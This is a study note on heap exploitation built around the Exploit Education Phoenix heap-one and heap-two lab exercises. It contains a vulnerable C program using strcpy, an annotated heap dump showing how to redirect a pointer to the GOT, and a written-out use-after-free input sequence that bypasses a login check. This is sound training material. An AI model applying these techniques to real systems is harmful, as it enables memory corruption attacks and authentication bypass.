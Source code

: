 # Heap Exploits

## Heap Buffer Overflow

{% embed url="https://exploit.education/phoenix/heap-one/" %}
Exploit Education Phoenix exercise this is based on
{% endembed %}

This occurs when unsafe functions are used which can overflow buffers (such as `strcpy`).

The idea is to overflow a pointer. When that pointer is written to, then since you can overflow it with an arbitrary value, then you will be able to write to an arbitrary address.

This allows you to overwrite a function pointer in the global offset table (GOT), or overwrite the function return pointer. The GOT method is more reliable.

```
struct heapStructure {
  int priority;
  char * name;
};

int main(int argc, char ** argv) {
  struct heapStructure * i1, * i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1 -> priority = 1;
  i1 -> name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2 -> priority = 2;
  i2 -> name = malloc(8);

  strcpy(i1 -> name, argv[1]);
  strcpy(i2 -> name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

Heap state before the first `strcpy`:

```
0xf7e69000  0x00000000 # chunk header first part 
0xf7e69004  0x00000011 # chunk second part. 0x8 bytes malloc + 0x8 bytes header + 0x1 byte for the previous chunk being used = 0x11 
0xf7e69008  0x00000001 # struct1.priority = 1
0xf7e6900c  0xf7e69018 # *struct1.name
0xf7e69010  0x00000000
0xf7e69014  0x00000011
0xf7e69018  0x00000000 # struct1.name. Strcpy starts writing into this part 
0xf7e6901c  0x00000000
0xf7e69020  0x00000000
0xf7e69024  0x00000011
0xf7e69028  0x00000002
0xf7e6902c  0xf7e69038 # *struct2.name. The pointer specified at this address will be written to. If we overwrite this value, then we will change the address where the write will occur. We can overwrite it  with the GOT address
0xf7e69030  0x00000000
0xf7e69034  0x00000011
0xf7e69038  0x00000000
0xf7e6903c  0x00000000
0xf7e69040  0x00000000
0xf7e69044  0x000fffc1
```

## Use-After-Free

Use after free occurs when a memory address is freed, but the variable that points to the free memory address is still used after the free.&#x20;

By allocating space for new variable(s) into the space that was freed, you can control the value of the old variable through the value new variable(s). This is because if the old dangling variable is used again, then its value will be taken from the space where the new variable(s) was/were allocated.

### **Phoenix Heap 2 solution**

{% embed url="https://exploit.education/phoenix/heap-two/" %}
Phoenix exercise heap2
{% endembed %}

{% embed url="https://www.youtube.com/watch?v=ZHghwsTRyzQ" %}
Liveoverflow solving phoenix heap2
{% endembed %}

Solution (all you have to do is interact with the program):

```
[ auth = 0, service = 0 ]
auth admin
[ auth = 0x8049af0, service = 0 ]
reset
[ auth = 0x8049af0, service = 0 ]
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[ auth = 0x8049af0, service = 0x8049af0 ]
login
you have logged in already!
```

### Explanation

You allocate space for the auth variable on the heap. The `auth` variable will point to the location of the allocated space on the heap. Then you free that space. However, the variable is not nulled and it will still point to a freed space on the heap.

The `service` command calls `malloc()` behind the scenes (allocates space on the heap) and writes to the allocated space.

This space will be allocated to the same spot that was freed earlier. And data will be written there. The auth variable still points to that spot, so you're effectively overwriting the contents of auth.

By specifying a long string ("aaaaaaaaaa...") you're overwriting the 32 byte buffer of `name` and overwriting `auth`.

Thus, the application thinks you're logged in.

